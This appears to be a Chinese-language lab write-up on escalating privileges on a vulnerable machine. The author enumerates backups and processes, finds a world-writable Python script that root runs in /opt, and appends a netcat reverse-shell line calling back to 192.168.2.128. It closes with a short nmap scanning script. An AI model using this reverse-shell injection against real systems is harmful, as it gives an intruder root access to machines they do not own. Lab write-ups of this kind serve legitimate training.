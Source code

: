 #### 信息搜集

gcc没有；suid检查；sudo检查；root权限进程检查

于是四处转悠一下

/var/backups
```
-rw------- 1 root root       909 Aug 22  2017 group.bak
-rw------- 1 root shadow     763 Aug 22  2017 gshadow.bak
-rw------- 1 root root      2107 Aug 22  2017 passwd.bak
-rw------- 1 root shadow    1375 Aug 22  2017 shadow.bak

```
```
cat /etc/group 查找组用户
james
ps -aux | grep james 查找james用户运行的进程
```
在/opt路径下，有一个py脚本，被我忽略了。
重点是`rwxrwxrwx`，第三个rwx，说明其他用户也有可读可写可执行权限。
```
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 Jun 18  2017 ..
drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
-rwxrwxrwx  1 root root  158 Dec  2 02:35 tmp.py
```
## 提权
cd /opt;echo  "os.system('/bin/nc -e /bin/bash 192.168.2.128 8001')" >> tmp.py
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-02/6.PNG)

我说为啥一开始传LinEnum.sh的时候，文件老是不见了呢==

原来是删除/tmp的进程做的。

[权限错误，这种提权方式遇到过](https://whale3070.github.io/training/2018/04/16/x/)

---
参考资料：

[将一个简单的shell，提升为完整的终端控制](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)


## 总结：

因为全端口扫描需要花点时间，所以先进行常见端口扫描。

写了一个脚本，懒得每次输命令==
```
#!/bin/bash
read -p "ip? " what
nmap -sS -sV -oN scan-result.txt ${what}
nmap -p- -oN full-scan.txt ${what}
```
- 内核提权检查之前，先检查是否有编译器
